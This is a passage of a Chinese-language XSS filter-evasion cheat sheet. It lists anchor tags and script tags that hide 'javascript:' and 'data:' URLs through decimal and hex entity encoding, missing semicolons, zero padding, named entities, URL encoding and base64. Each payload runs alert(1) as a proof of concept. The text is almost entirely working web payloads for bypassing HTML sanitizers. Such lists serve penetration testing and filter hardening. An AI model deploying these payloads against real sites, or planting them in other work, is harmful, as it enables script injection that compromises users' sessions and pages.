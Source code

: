 ```
<a href="&#0000106avascript:alert(1)">XSS</a>
```

#### **十六进制编码实体**

```
<a href="&#x6a;avascript:alert(1)">XSS</a>
```

#### **不带分号的十六进制编码提供的下一个字符不是 a-f0-9**

```
<a href="j&#x61vascript:alert(1)">XSS</a> <a href="&#x6a avascript:alert(1)">XSS</a> <a href="&#x6a avascript:alert(1)">XSS</a>
```

#### **带填充零的十六进制编码**

```
<a href="&#x0000006a;avascript:alert(1)">XSS</a>
```

#### **十六进制编码不区分大小写**

```
<a href="&#X6A;avascript:alert(1)">XSS</a>
```

#### **HTML 实体**

```
<a href="javascript&colon;alert(1)">XSS</a> <a href="java&Tab;script:alert(1)">XSS</a> <a href="java&NewLine;script:alert(1)">XSS</a> <a href="javascript&colon;alert&lpar;1&rpar;">XSS</a>
```

#### **网址编码**

```
<a href="javascript:x='%27-alert(1)-%27';">XSS</a>
```

#### **HTML 实体和 URL 编码**

```
<a href="javascript:x='&percnt;27-alert(1)-%27';">XSS</a>
```

### **混淆**

#### **base64 脚本 src 内的数据协议**

```
<script src=data:text/javascript;base64,YWxlcnQoMSk=></script>
```

#### **带有 base64 和 HTML 实体的脚本 src 内的数据协议**

```
<script src=data:text/javascript;base64,&#x59;&#x57;&#x78;&#x6c;&#x63;&#x6e;&#x51;&#x6f;&#x4d;&#x53;&#x6b;&#x3d;></script>
```
